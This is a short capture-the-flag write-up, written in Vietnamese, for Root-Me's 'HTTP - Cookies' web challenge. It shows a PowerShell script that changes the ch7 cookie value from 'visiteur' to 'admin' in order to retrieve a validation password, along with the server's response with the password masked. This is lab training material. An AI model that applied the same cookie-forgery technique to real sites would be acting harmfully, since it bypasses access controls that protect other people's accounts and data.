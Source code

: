 # HTTP - Cookies

## Solution

Có thể làm challenge này hoàn toàn trên Windows với Powershell

Khi vào trang web, có một liên kết có tên là "Saved email addresses" và khi click vào liên kết này, có thể thấy một cookie có tên là `ch7` với giá trị `visiteur`.

Giải pháp rất dễ, cần gửi một cookie có giá trị là `admin`.

Script để lấy password trong Powershell: 

```
# Session Object
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
# Cookie Object
$cookie = New-Object System.Net.Cookie

# Set the cookie name
$cookie.Name = "ch7"
# Set the cookie value
$cookie.Value = "admin"
# Set the cookie domain
$cookie.Domain = "challenge01.root-me.org"

# Add the cookie on the session
$session.Cookies.Add($cookie)

(Invoke-WebRequest "http://challenge01.root-me.org/web-serveur/ch7" -WebSession $session).RawContent
```

Và có password!

```
HTTP/1.1 200 OK
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
Date: Mon, 31 Dec 2018 01:03:56 GMT
Server: nginx

<div>Validation password : ****</div></fieldset>
```